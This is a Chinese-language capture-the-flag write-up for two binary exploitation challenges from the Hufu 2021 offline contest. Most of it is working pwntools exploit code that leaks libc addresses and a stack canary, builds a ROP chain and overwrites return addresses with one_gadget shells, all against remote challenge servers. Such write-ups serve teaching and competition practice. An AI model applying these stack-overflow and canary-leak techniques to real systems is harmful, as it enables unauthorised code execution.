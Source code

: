 ```yaml
---
title: 虎符2021线下Pwn题WP
date: 2021-05-09T12:16:31+08:00
lastmod: 2021-05-09T12:16:31+08:00
author: Ch4rc0al

#cover: /img/cover.jpg
categories:
  - WriteUps
tags:
  - Pwn 
# nolastmod: true
---
```


# 虎符2021线下Pwn题WP

<!--more-->

### jdt

>    Arch:     amd64-64-little  
>    RELRO:    Full RELRO  
>    Stack:    Canary found  
>    NX:       NX enabled  
>    PIE:      PIE enabled  

题目在栈上操作，代码审计发现虽然只能创建16个book，但可以edit和show第17个book，会打印出rbp附近内容。

我们获取并利用`__libc_start_main_ret`的真实地址来得到远程libc版本和libc基址，网上下载libc文件得到`one_gadget`偏移，修改ret为`ong_gadget`即可，需要注意的一点是我们需要在栈中填充一定的字符才能打印出地址来。
```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

def create(p,a,n,d):
    sh.sendlineafter("Choice: ","1")
    sh.sendlineafter("Price?",p)
    sh.sendlineafter("Author?",a)
    sh.sendlineafter("Book's name?",n)
    sh.sendlineafter("Description?",d)
    
def edit(index,choice,data):
    sh.sendlineafter("Choice: ","2")
    sh.sendlineafter("idx?",str(index))
    sh.sendlineafter("Choice: ",str(choice))
    if(choice==1):
       sh.sendafter("Price?",data)
    elif(choice==2):
        sh.sendafter("Author?",data)
    elif(choice==3):
        sh.sendafter("Book's Name?",data)
    elif(choice==4):
        sh.sendafter("Description?",data)

def show(index):
    sh.sendlineafter("Choice: ","3")
    sh.sendlineafter("idx?",str(index))
    #sh.recv()

def sell(index):
    sh.sendlineafter("Choice: ","4")
    sh.sendlineafter("idx?",str(index))

#sh=process('./jdt')
sh=remote('dawnaa.cn',9001)
elf=ELF('./jdt')
libc=ELF('./jdt_libc')
for i in range(0,16):
    create(str(i),'aaa','bbb','ccc')

edit(16,2,"aaaaaaaa")
show(16)
sh.recvuntil("Author: ")
libc_start_main_ret=u64(sh.recv()[8:14]+"\x00\x00")

libc_base=libc_start_main_ret-libc.symbols['__libc_start_main']-231
ogg=libc_base+0x45226
edit(16,3,'aaaaaaaa'+p64(ogg))
print hex(libc_start_main_ret)
print hex(libc_base)
print hex(ogg)
show(16)
sh.send('5')
sh.interactive()

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''

```

---
### tls
>    Arch:     amd64-64-little  
>    RELRO:    Full RELRO  
>    Stack:    Canary found  
>    NX:       NX enabled  
>    PIE:      No PIE (0x400000)  

vuln函数运行在线程中，不影响我们正常做题，gdb调试时用`thread`命令切换至线程调试即可

依然是栈题，给出了libc，审计代码发现pos没有规定范围，我们可以修改一开始设定的size并输出calc来达到泄露`canary`的目的，一开始我们需要将`rbp-16`清为0。

泄露`canary`后，我们就可以构造`rop`链用`puts`来输出真实地址，最终将ret改为`one_gadget`即可。

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
sh=remote('dawnaa.cn',9003)
#sh=process("./tls")#env = {"LD_PRELOAD" : "./tls_libc"})
elf=ELF("./tls")
libc=ELF("./tls_libc")
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
sh.sendlineafter("How many? ","1")
sh.sendlineafter(" = ","0")

sh.sendlineafter("Your choice: ","1")
sh.sendlineafter("Please input pos: ","54")
sh.sendlineafter("Your choice: ","2")
sh.sendlineafter("Please input new number: ","0")

sh.sendlineafter("Your choice: ","1")
sh.sendlineafter("Please input pos: ","-4")
sh.sendlineafter("Your choice: ","2")
sh.sendlineafter("Please input new number: ","56")
sh.sendlineafter("Your choice: ","3")
sh.recvuntil("result = ")
canary=int(sh.recvline()[:-1],10)
print hex(canary)

pop_rdi=0x401293
sh.sendlineafter("Your choice: ","4")
payload='a'*0x38+p64(canary)+'bbbbbbbb'+p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(0x400dc4)
sh.sendlineafter("Oh!What is your name? ",payload)
sh.recvuntil("GoodBye.")
sh.recvuntil("a"*24)
sh.recvuntil("\n")
puts_got=u64(sh.recvline()[:6].ljust(8,'\x00'))
print hex(puts_got)
libc_base=puts_got-libc.symbols['puts']
print hex(libc_base)
ogg=libc_base+0x4526a
print hex(ogg)
payload='a'*0x38+p64(canary)+'bbbbbbbb'+p64(ogg)
sh.sendlineafter("How many? ","1")
sh.sendlineafter(" = ","0")
sh.sendlineafter("Your choice: ","4")
sh.sendlineafter("Oh!What is your name? ",payload)
sh.interactive()


```

